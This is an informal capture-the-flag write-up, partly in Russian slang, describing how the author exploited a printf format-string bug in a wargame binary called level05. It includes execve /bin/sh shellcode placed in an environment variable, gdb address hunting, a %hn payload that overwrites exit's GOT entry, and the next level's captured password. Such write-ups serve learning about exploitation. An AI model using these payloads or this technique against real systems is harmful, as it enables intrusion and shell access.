 info functions дает нам такой рассклад:
0x08048340  printf
0x08048350  fgets
0x08048370  exit
0x08048420  frame_dummy
0x08048444  main


so we need shellcode coz this shit aint using no syscall with bin sh
we have printf which can be fucked with and we have exit after printf, whose *jmp addr we can reroute to shellcode addr

disas exit gives this addr: 
jmp    *0x80497e0

buff addr (???)
0x080497e8  data_start


so first of all in this shit u cant execute stack, 


https://en.wikipedia.org/wiki/Executable_space_protection

google non executable stack for info, but tldr:

dmesg | grep "Execute Disable"
[    0.000000] NX (Execute Disable) protection: active

https://access.redhat.com/solutions/2936741

meaning we cant do the old good shit


well we still need to put in some shellcode coz still no syscall with bin sh

some googling gets me here:
https://access.redhat.com/solutions/2936741
where i get a fine advice of using env var for injecting shellcode.
see, it's the memory addresses which are being checked for this kind of protection
and env vars addresses are quite different from local stack addresses which allows us to well
OVERRIDE the protection kek

anyway, the general solution is the following:
1. we need to export some shellcode as an env var
2. we need to get its address
3. as we will see further this address will be quite unwritebale with the usual int due to int overflow
4. however, two short ints following each other will be written in memory following one another
which will form the right address

so lets go
1. we need to export the shellcode, however, the program does some xor shit to each symbol in buffer which can alterante the shellcode (byez say its tolower but whateves). we don't want it touched so we need to skip the original buff.

use the old generator (ask maxxon for that) to check the buff size. its a 100.
so we need to add some 100 bytes to shellcode then we take its address.

export PEPEGA=`python -c 'print("\x90"*100 + "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80")'`

check env vars in gdb:

b *main+4
r
x/200s environ

0xffffde70: // the address     "PEPEGA=\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\22---Type <return> to continue, or q <return> to quit---
0\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\061\300Ph//shh/bin\211\343PS\211\341\260\v̀"


0xffffde70 hex to decimal = 4294958704 // see, that's the int overflow i was talking about

exit addr also should be split to write parts of shellcode addr in approprite mem

currently on my machine the hex-to-dec value for addr is the following (may not work the same?):

0xffff = 65535 // same
0xde70 = 56944 //28894

to that shit we need the following adjustments:
- 8 bytes for ptr
- characters already written


making the digits the following: (56944 - 8) + (65535 - 56944) = 56936 + 8591



for printf - the old boy %n specifier + width

(python -c 'print("\xe0\x97\x04\x08" + "\xe2\x97\x04\x08" + "%56936d%10$hn" + "%8591d%11$hn")'; cat) | ./level05

cat /home/users/level06/.pass
h4GtNnaMs2kZFN92ymTr2DcJHAzMfzLW25Ep59mq
